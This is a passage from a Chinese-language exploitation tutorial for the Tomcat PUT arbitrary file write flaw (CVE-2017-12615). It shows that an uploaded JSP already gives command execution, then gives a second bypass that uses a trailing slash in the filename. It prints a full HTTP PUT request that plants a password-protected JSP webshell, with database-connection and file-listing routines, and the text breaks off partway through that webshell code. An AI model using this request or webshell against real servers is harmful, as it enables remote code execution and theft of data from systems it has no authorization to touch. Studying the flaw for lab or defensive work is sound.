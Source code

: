 可以看到返回响应码201，说明我们上传成功了。我们访问我们jsp脚本试试：

![](./resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId35.png)

看到可以命令执行(我们上传的payload是命令执行的脚本)，我们也可以上传一个jsp的webshell

##### 上传姿势二：

我们知道servlet在识别1.jsp/时会把它当作非jsp文件交给DefaultServlet
来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个webshell)

    PUT /webshell.jsp/ HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 6239  

    <%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>  
    <%!  
      String Pwd = "hetian";  
      String cs = "UTF-8";  

       String EC(String s) throws Exception {  
           return new String(s.getBytes("ISO-8859-1"),cs);  
       }  

       Connection GC(String s) throws Exception {  
           String[] x = s.trim().split("choraheiheihei");  
         Class.forName(x[0].trim());  
          if(x[1].indexOf("jdbc:oracle")!=-1){  
              return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
          }else{  
              Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
            if (x.length > 4) {  
                  c.setCatalog(x[4]);  
              }  
              return c;  
           }  
       }  

      void AA(StringBuffer sb) throws Exception {  
          File k = new File("");  
          File r[] = k.listRoots();  
           for (int i = 0; i < r.length; i++) {  
             sb.append(r[i].toString().substring(0, 2));  
         }  
      }  

